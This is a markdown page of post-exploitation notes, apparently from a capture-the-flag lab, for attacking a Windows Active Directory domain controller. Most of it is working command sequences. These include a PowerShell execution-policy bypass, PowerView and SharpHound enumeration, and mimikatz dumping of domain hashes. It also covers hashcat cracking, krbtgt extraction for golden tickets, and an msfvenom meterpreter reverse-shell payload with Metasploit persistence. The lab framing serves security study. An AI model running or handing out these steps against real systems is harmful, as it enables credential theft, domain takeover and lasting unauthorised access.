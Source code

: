 # Post exploitation basics

![Bloodhound](../../_static/images/bloodhound.png)

## Attack tree

```text
1 Enumeration with Powerview
2 Enumeration with Bloodhound
3 Dumping hashes with mimikatz
4 Golden ticket attacks with mimikatz
6 Maintaining Access
```

## Enumeration with Powerview

ssh into machine:

    ssh Administrator@<MACHINE-IP>
    Administrator@<MACHINE-IP>'s password: 

    Microsoft Windows [Version 10.0.17763.737]

Start Powershell: `-ep` bypasses the execution policy of powershell

    controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

Start PowerView:

    PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
    PS C:\Users\Administrator> cd .\Downloads

Enumerate the domain users:

    PS C:\Users\Administrator\Downloads> Get-NetUser | select cn
    
    --
    Administrator
    Guest
    krbtgt
    Machine-1
    Admin2
    SQL Service
    POST{P0W3RV13W_FTW}
    sshd

Enumerate the domain groups:

    PS C:\Users\Administrator\Downloads> Get-NetGroup -GroupName *admin*
    Administrators
    Hyper-V Administrators
    Storage Replica Administrators
    Schema Admins
    Enterprise Admins
    Domain Admins
    Key Admins
    Enterprise Key Admins
    DnsAdmins

Enumerate shares:

    PS C:\Users\Administrator\Downloads> Invoke-ShareFinder
    \\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
    \\Domain-Controller.CONTROLLER.local\C$         - Default share
    \\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
    \\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
    \\Domain-Controller.CONTROLLER.local\Share      -
    \\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share

Enumerate operating systems running inside the network:

    PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata | select operatingsystem*
    
    operatingsystem                  operatingsystemversion
    ---------------                  ----------------------
    Windows Server 2019 Standard     10.0 (17763)
    Windows 10 Enterprise Evaluation 10.0 (18363)
    Windows 10 Enterprise Evaluation 10.0 (18363)

## Enumeration with Bloodhound

    powershell -ep bypass 
    . .\Downloads\SharpHound.ps1
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

Transfer the loot to attackerbox and load in bloodhound. Map the network.

## Dumping hashes with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /patch
    hashcat -m 1000 <hash.text> usr/share/wordlists/rockyou.txt

## Golden ticket attacks with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /inject /name:krbtgt

## Maintaining Access

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

Transfer the payload from your attacker machine to the target machine and `use exploit/multi/handler`,
then execute the binary this will give a meterpreter shell back in metasploit. Background it.

    use exploit/windows/local/persistence
    set session 1

## Tools

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
# neo4j console
```

* [Mimikatz](https://github.com/gentilkiwi/mimikatz)